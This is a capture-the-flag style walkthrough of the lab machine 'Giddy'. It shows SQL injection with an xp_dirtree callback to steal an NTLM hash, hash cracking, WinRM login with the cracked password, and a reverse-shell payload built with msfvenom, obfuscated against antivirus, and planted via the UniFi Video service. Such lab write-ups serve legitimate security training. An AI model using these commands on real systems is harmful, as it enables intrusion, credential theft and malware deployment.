



# Giddy
## Enumeration
- `nmap`
```
└─$ nmap -Pn -F 10.10.10.104 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-08 17:16 BST
Nmap scan report for 10.10.10.104 (10.10.10.104)
Host is up (0.12s latency).
Not shown: 97 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
3389/tcp open  ms-wbt-server
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 3.96 seconds
```
```
└─$ nmap -Pn -p80,443,3389,5985 -sC -sV 10.10.10.104 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-08 17:17 BST
Nmap scan report for 10.10.10.104 (10.10.10.104)
Host is up (0.12s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
|_ssl-date: 2023-09-08T16:17:11+00:00; -37s from scanner time.
| ssl-cert: Subject: commonName=PowerShellWebAccessTestWebSite
| Not valid before: 2018-06-16T21:28:55
|_Not valid after:  2018-09-14T21:28:55
| tls-alpn: 
|   h2
|_  http/1.1
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Giddy
| Not valid before: 2023-09-07T15:57:53
|_Not valid after:  2024-03-08T15:57:53
|_ssl-date: 2023-09-08T16:17:11+00:00; -37s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -37s, deviation: 0s, median: -37s

```

- Web Server
  - Ports `80`, `443`


- `gobuster`
```
└─$ gobuster dir -u https://10.10.10.104/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,asp,aspx --no-error -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.10.104/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,asp,aspx
[+] Timeout:                 10s
===============================================================
2023/09/08 17:30:46 Starting gobuster in directory enumeration mode
===============================================================
/remote               (Status: 302) [Size: 157] [--> /Remote/default.aspx?ReturnUrl=%2fremote]
/mvc                  (Status: 301) [Size: 148] [--> https://10.10.10.104/mvc/]
```

- `/remote`


- `/mvc`


## Foothold/User
- Let's try basic `SQLi` payloads
  - Searching for `a'` results in error


- Let's save request in `Burp` and send it `sqlmap`
  - `sqlmap -r sqli.req  --batch --level 5 --risk 3 --dbms mssql`
```
└─$ sqlmap -r sqli.req  --batch --level 5 --risk 3 --dbms mssql
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[,]_____ ___ ___  {1.7.8#stable}                                                                                                                                                                                                    
|_ -| . [)]     | .'| . |                                                                                                                                                                                                                   
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:57:35 /2023-09-08/

[18:57:35] [INFO] parsing HTTP request from 'sqli.req'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
Cookie parameter '__AntiXsrfToken' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] N
[18:57:35] [INFO] testing connection to the target URL
[18:57:37] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
[18:57:37] [INFO] testing if the target URL content is stable
...

    Type: time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: __EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=c39aSrrjVegYDnshUTW+tNB6JgaUTspv/jwxhdWD0ZKSiBKYDSZRbeQS5GlfLXhYcxXgekuVXU6GOreLHWeEiD4G8Mvpnb+EmRG2dWHeiQfkd5ClbRT8iCeAS//d6Z+jJTJMnY0Uq4fG9Hhjr5oAipmU0a+aWHhjepvZRKVR4gubRNAjVlpH8QSpLXNUmiZoPBNZfyX/FVUzuI7b4QW9IHQDdcu/FSWG87eJFsqfFvtJifABxmDkFC/tEVGh0a6i6xecxTBdhQOXjxqKXCa+/QDTGUK0/x7pYNQvt+he9riq5DJX1Zi0YPKwkzKWTbfySMjS6ZKulVIColiEMOdeN9OF6duVFBGJmhHvl4Om1qZVql4/kSoPC4pS0RQdv/6H3KUlwCt3mKBCzZBFboIxWg==&__VIEWSTATEGENERATOR=7DDB321F&__EVENTVALIDATION=OX743Tzie8FvKX+QxA0p6nMLW4E2TVP/WtCN4hTZ6m1ACBF9Am3x7RjpJASqKWtG+/fs8OiDDjS40ASGZvzak7WVvvs2/D9mWRH7wBI8Ap1mb+BxjDArHPt9wTcjXzxYSkaKHq2g+rSiNKgwFxNA4g==&ctl00$MainContent$SearchTerm=' WAITFOR DELAY '0:0:5'-- UEvz&ctl00$MainContent$Button1=Search
---
[18:59:40] [INFO] testing Microsoft SQL Server
[18:59:40] [INFO] confirming Microsoft SQL Server
[18:59:42] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2022 or 11 or 2016 or 2019 or 10
web application technology: Microsoft IIS 10.0, ASP.NET 4.0.30319, ASP.NET
back-end DBMS: Microsoft SQL Server 2016
[18:59:42] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 425 times
[18:59:42] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.10.104'

[*] ending @ 18:59:42 /2023-09-08/
```

- I found nothing 
  - So let's try to steal `NTLM`
  - Let's start `responder`
  - 
    - https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack
  - Payload: `test; exec master.dbo.xp_dirtree '\\10.10.16.9\anything'`
    - https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18;exec+master.dbo.xp_dirtree+%27\\10.10.16.9\anything%27



- Let's crack it
  - `stacy:xNnWo6272k7x`
```
└─$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-12th Gen Intel(R) Core(TM) i5-12400, 1436/2936 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
...

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

STACY::GIDDY:a1cd01541a3f67c9:5ba9217b272a9bae36440a0b3c78ad83:010100000000000000db988501e3d9015747a9187ea62aff0000000002000800560042004400350001001e00570049004e002d0042005700490033004500370042005a0030003400480004003400570049004e002d0042005700490033004500370042005a003000340048002e0056004200440035002e004c004f00430041004c000300140056004200440035002e004c004f00430041004c000500140056004200440035002e004c004f00430041004c000700080000db988501e3d901060004000200000008003000300000000000000000000000003000001252c1649de5058700c34bf65483319aa9b5e68a0175e5c0927b0a99755c83920a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003900000000000000000000000000:xNnWo6272k7x
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: STACY::GIDDY:a1cd01541a3f67c9:5ba9217b272a9bae36440...000000
Time.Started.....: Sat Sep  9 09:56:40 2023 (2 secs)
Time.Estimated...: Sat Sep  9 09:56:42 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1119.5 kH/s (0.38ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2689024/14344385 (18.75%)
Rejected.........: 0/2689024 (0.00%)
Restore.Point....: 2688512/14344385 (18.74%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: xXxElizabethxXx! -> x99123
Hardware.Mon.#1..: Util: 88%

Started: Sat Sep  9 09:56:39 2023
Stopped: Sat Sep  9 09:56:44 2023
```

- And it's valid
```
└─$ crackmapexec winrm 10.10.10.104 -u stacy -p 'xNnWo6272k7x' -d 'GIDDY'
HTTP        10.10.10.104    5985   10.10.10.104     [*] http://10.10.10.104:5985/wsman
WINRM       10.10.10.104    5985   10.10.10.104     [+] GIDDY\stacy:xNnWo6272k7x (Pwn3d!)
```
```
└─$ evil-winrm -u 'GIDDY\stacy' -p 'xNnWo6272k7x' -i 10.10.10.104
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Stacy\Documents> 
```
## Root
- `whoami`
```
*Evil-WinRM* PS C:\Users\Stacy\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\Stacy\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192

```
- Enumerate
  - We don't have permissions to list services and  tasks
```
*Evil-WinRM* PS C:\Users\Stacy\Documents> dir


    Directory: C:\Users\Stacy\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/17/2018   9:36 AM              6 unifivideo

```
- So I tried `powerup` but we have `ConstrainedLanguage`
  - To test `$ExecutionContext.SessionState.LanguageMode`
  - But couldn't make it work
- We can check services via registry
```
*Evil-WinRM* PS C:\users> cd HKLM:\system\currentcontrolset\services
*Evil-WinRM* PS HKLM:\system\currentcontrolset\services> ls


    Hive: HKEY_LOCAL_MACHINE\system\currentcontrolset\services


Name                           Property
----                           --------
.NET CLR Data
.NET CLR Networking
.NET CLR Networking 4.0.0.0
.NET Data Provider for Oracle
.NET Data Provider for
SqlServer
...
UniFiVideoService              Type            : 16
                               Start           : 2
                               ErrorControl    : 1
                               ImagePath       : C:\ProgramData\unifi-video\avService.exe //RS//UniFiVideoService
                               DisplayName     : Ubiquiti UniFi Video
                               DependOnService : {Tcpip, Afd}
                               ObjectName      : LocalSystem
                               Description     : Ubiquiti UniFi Video Service
...
```
- We can also check `Powershell History`
```
Evil-WinRM* PS HKLM:\system\currentcontrolset\services> (Get-PSReadLineOption).HistorySavePath
C:\Users\Stacy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ServerRemoteHost_history.txt
*Evil-WinRM* PS HKLM:\system\currentcontrolset\services> dir "C:\Users\Stacy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\"


    Directory: C:\Users\Stacy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/17/2018   9:48 AM            207 ConsoleHost_history.txt

*Evil-WinRM* PS HKLM:\system\currentcontrolset\services> type "C:\Users\Stacy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt"
net stop unifivideoservice
$ExecutionContext.SessionState.LanguageMode
Stop-Service -Name Unifivideoservice -Force
Get-Service -Name Unifivideoservice
whoami
Get-Service -ServiceName UniFiVideoService
```

- So 

- We have `unifivideo`
  - https://www.exploit-db.com/exploits/43390




```
*Evil-WinRM* PS C:\> dir programdata


    Directory: C:\programdata


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/16/2016   9:23 AM                Comms
d---s-        6/16/2018   9:19 PM                Microsoft
d-----         9/8/2023  11:59 AM                Package Cache
d-----        8/18/2018   4:09 AM                regid.1991-06.com.microsoft
d-----        7/16/2016   9:23 AM                SoftwareDistribution
da----       12/15/2021   7:57 AM                unifi-video
d-----        7/16/2016   9:23 AM                USOPrivate
d-----         6/1/2018   6:03 PM                USOShared
da----         5/4/2021  10:56 AM                VMware
d-----        6/16/2018   9:16 PM                VsTelemetry

```
```
*Evil-WinRM* PS C:\ProgramData> icacls unifi-video
unifi-video NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
            BUILTIN\Administrators:(I)(OI)(CI)(F)
            CREATOR OWNER:(I)(OI)(CI)(IO)(F)
            BUILTIN\Users:(I)(OI)(CI)(RX)
            BUILTIN\Users:(I)(CI)(WD,AD,WEA,WA)

Successfully processed 1 files; Failed processing 0 files
```

- Let's generate payload
```
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.9 LPORT=6666 -f exe -o evil.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: evil.exe
```
- If we try downloading and executing the payload, it will get killed by the `AV`
  - So we need to obfuscate it
  - I used `hyperion`
  - We could also use [ebowla](https://github.com/Genetic-Malware/Ebowla)
```
└─$ sudo wine /usr/share/windows-resources/hyperion/hyperion.exe evil.exe taskkill.exe
[sudo] password for kali: 
```

- Let's upload it to box
```
*Evil-WinRM* PS C:\ProgramData\unifi-video> iwr http://10.10.16.9/taskkill.exe -outfile taskkill.exe
*Evil-WinRM* PS C:\ProgramData\unifi-video> ls


    Directory: C:\ProgramData\unifi-video


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        6/16/2018   9:54 PM                bin
d-----        6/16/2018   9:55 PM                conf
d-----        6/16/2018  10:56 PM                data
d-----        6/16/2018   9:54 PM                email
d-----        6/16/2018   9:54 PM                fw
d-----        6/16/2018   9:54 PM                lib
d-----         9/8/2023  12:01 PM                logs
d-----        6/16/2018   9:55 PM                webapps
d-----        6/16/2018   9:55 PM                work
-a----        7/26/2017   6:10 PM         219136 avService.exe
-a----        6/17/2018  11:23 AM          31685 hs_err_pid1992.log
-a----        8/16/2018   7:48 PM         270597 hs_err_pid2036.mdmp
-a----         9/9/2023   5:56 AM          29184 taskkill.exe
-a----        6/16/2018   9:54 PM            780 Ubiquiti UniFi Video.lnk
-a----        7/26/2017   6:10 PM          48640 UniFiVideo.exe
-a----        7/26/2017   6:10 PM          32038 UniFiVideo.ico
-a----        6/16/2018   9:54 PM          89050 Uninstall.exe

```

- And now we stop the service and get our shell



